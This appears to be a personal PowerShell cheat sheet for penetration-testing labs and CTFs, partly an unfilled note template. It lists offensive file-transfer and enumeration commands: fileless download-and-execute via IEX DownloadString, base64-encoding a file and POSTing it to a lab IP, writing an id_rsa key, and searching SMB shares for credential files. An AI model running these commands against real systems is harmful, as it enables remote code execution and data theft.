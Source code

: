 # Powershell

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

Decode base64 to file
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("base64 conten"))
```
^decode-base64-to-file

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
^encode-file-contents-to-base64

Get file MD5 hash
```powershell
Get-FileHash <file> -Algorithm md5 | Select Hash
```
^get-file-md5-hash

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
^downloadfile-method

```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>')
# or
(New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>') | IEX
```
^downloadstring-method-fileless

```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output File Name> -UseBasicParsing
```
^outfile-invoke-webrequest

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
^b64-file-content-variable

```powershell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
^send-b64-post

### Category 2

**Get-ChildItem** is the PowerShell equivalent of dir
```powershell
Get-ChildItem \\192.168.220.129\Finance\
```

can also be used to find how many files are in the shared folder and their sub-directories
```powershell
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

**-Include** can be used to search for specific files
```powershell
Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
```

**Select-String** is the PowerShell equivalent of grep or findstr, using regular expressions to search for text patterns in files
```powershell
Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List
```

**New-PSDrive** is the PowerShell equivalent of net use
```powershell
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"
```

New-PSDrive can be used with credentials using a **PSCredential** object.
```powershell
$username = 'plaintext'
$password = 'Password123'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
```

### Category 3

Brief description of this category

command syntax ^powershell-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #powershell
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#powershell #tool